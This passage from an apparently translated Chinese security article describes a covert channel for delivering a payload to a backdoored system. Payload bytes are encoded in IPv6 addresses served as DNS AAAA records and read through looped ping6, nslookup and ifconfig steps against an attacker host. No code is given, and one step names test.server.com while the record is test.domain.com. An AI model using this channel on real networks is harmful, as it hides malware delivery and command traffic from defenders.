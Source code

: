fe80:1111:xxxx:xxxx:xxxx:xxxx:xxxx:wxyz

我认为我们有两种方式将IPv6地址用于我们的Payload，第一个是我们使用DNS和AAAA记录，第二个是使用这些IPv6地址和DNS AAAA记录，也是Ping6的ICMPv6流量。

ICMPv6和Ping6：这个例子中，你能通过虚假的IPv6和注入的Payload来改变攻击者的IPv6地址，然后从后门系统中，你能通过循环Ping6得到这些IPv6地址（ICMPv6流量）。

因此我们有下面这些东西：

（后门系统）ip地址 = `{`192.168.1.120`}`

（攻击者系统）ip地址 = `{`192.168.1.111

,fe80:1111:0034:abcd:ef00:ab11:ccf1:0000`}`

(攻击者系统)DNS名 = test.domain.com，和安装的DNS服务`{`dnsmasq或dnsspoof`}`

DNS AAAA记录和ICMPv6步骤：

步骤1：（攻击者DNS服务器）record0=&gt;

fe80:1111:0034:abcd:ef00:ab11:ccf1:0000 AAAA test.domain.com

步骤2：（后门系统）==&gt;nslookup test.server.com 192.168.1.111

步骤3：（后门系统）循环Ping6=&gt;（攻击者系统fe80:1111:0034:abcd:ef00:ab11:ccf1:0000）

步骤4：（后门系统）通过Ping6响应在IPv6地址中转储出注入的Payload，转储这些部分｛0034:abcd:ef00:ab11:ccf1｝

步骤5：（攻击者DNS服务器）record0改为新的test.domain.com

步骤6：（攻击者DNS服务器）record0=&gt;

fe80:1111:cf89:abff:000e:09b1:33b1:0001 AAAA test.domain.com

步骤6-1：（攻击者系统）通过ifconfig添加或改变NIC IPv6地址`{`新的IPv6地址：fe80:1111:cf89:abff:000e:09b1:33b1:0001`}`

步骤6-2：关于步骤3的ping6的响应=超时或不可达（错误），这个时间是获取新的IPv6地址的标志，或者你的流量被某些东西检测到并阻止了。

步骤7：（后门系统）=&gt;nslookup test.server.com 192.168.1.111

步骤8：（后门系统）循环Ping6 test.domain.com=&gt;`{`新的IPv6地址fe80:1111:cf89:abff:000e:09b1:33b1:0001`}`

步骤9：（后门系统）通过IPv6的响应，从新的IPv6地址中转储出注入的Payload，转储这些部分｛cf89:abff:000e:09b1:33b1｝

注1：我们何时能知道IPv6地址改变了？当来自攻击者系统的ping6响应是超时或者不可达。你也可以通过nslookup检查。

注2：也可以使用多个IPv6地址为攻击者的NIC，这种情况下不需要步骤6-1。但是这样你不能使用注1。因此这种情况下你应该使用定时器或者循环通过nslookup或类似的工具得到来自攻击者系统的新的IPv6地址。意思是，从后门系统，你能逐行得到攻击者系统的IPv6地址和DNS Round-robin特征以及分组IPv6 DNS域名。

在这些步骤之后，你能通过DNS和ICMPv6流量得到20字节的Payload：

Payload0=fe80:1111:0034:abcd:ef00:ab11:ccf1:0000==&gt;0034:abcd:ef00:ab11:ccf1

Payload1=fe80:1111:cf89:abff:000e:09b1:33b1:0001==&gt;cf89:abff:000e:09b1:33b1

因此我们在两次Ping6之后得到这个Payload：

Reponse：0034abcdef00ab11ccf1cf89abff000e09b133b1

但是在这个技术中，你只能通过DNS流量做到这个，意味着你能移除所有的Ping6步骤。因此，如果你想不使用Ping6和ICMPv6流量就做到这个，你只需要步骤2和7，通过DNS响应从DNS服务器转储payload。但是我们将在第二部分中讨论讨论这个：（DNS和AAAA记录）

让我们展示一些关于ICMPv6方法的图片，没有代码和工具。

我将来可能会发布C#代码，并且也和这个文章一步一步介绍，但是我想展示关于DNS AAAA + ICMPv6技术的所有图片。                                
